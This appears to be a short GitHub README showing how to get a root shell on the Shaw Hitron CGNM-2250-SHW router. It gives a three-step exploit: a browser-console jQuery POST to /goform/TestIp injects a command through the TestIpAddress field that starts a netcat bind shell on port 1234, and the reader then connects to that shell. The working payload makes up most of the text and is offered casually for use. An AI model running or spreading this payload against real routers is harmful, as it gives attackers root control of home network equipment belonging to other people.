 # Getting a Root shell on the CGNM-2250-SHW Router
How to root CGNM-2250-SHW (Shaw Hitron Router)

I was messing around this weekend while putting of doing my COM100 project and I found this jucy vuln that gives you a root shell. Best of all its super easy to do, there are only 3 steps.

__1. login to the admin page of the rounter__
![admin page](https://github.com/CanadianCommander/CGNM-2250-SHW-Root/blob/master/HitronLogin.png)


__2. Paste this command in to the web browser console__

```
$.post("/goform/TestIp", {csrf_token: $("#csrf_token").val(), model: '{"TestIpAddress":"; rm -f /dev/myF; mkfifo /dev/myF; cat /dev/myF | /bin/sh -i 2>&1 | nc -l -p 1234 > /dev/myF;","UserType":"1","inputip":1,"TestMode":0}'}, function (data) {console.log(data)})
```
![run command in browser console](https://github.com/CanadianCommander/CGNM-2250-SHW-Root/blob/master/injectCommand.png)

__3. open a terminal and netcat to the router on port 1234__
![terminal netcat](https://github.com/CanadianCommander/CGNM-2250-SHW-Root/blob/master/rootShell.png)

As you can see you now get a jucy root shell (root is the only user that exists on the system). Have fun messing around!
